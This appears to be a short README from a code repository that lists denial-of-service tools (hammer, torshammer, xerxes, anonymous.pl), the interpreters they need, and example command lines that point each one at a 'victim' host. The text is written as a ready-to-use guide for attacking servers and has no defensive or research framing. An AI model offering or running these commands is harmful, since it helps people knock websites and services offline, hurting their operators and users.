 #simple step DDos Building By Me
#copyright By ~mr a~
1 tool ddos hammer
2 tool ddos torshammer
3 tool ddos xerxes
5 tool ddos anonymous.pl
6 tool ddos Mr A

#script install to running ddo
1 python
2 python2 
3 perl
4 clang

#example run
python hammer.py -s ip -r packet -p port
python torshammer.py -t ip -p port -r threads
python2 ddos.py hostname victim
python2 ddos2.py hostname victim
./xerxes hostname victim
perl Anonymous.pl
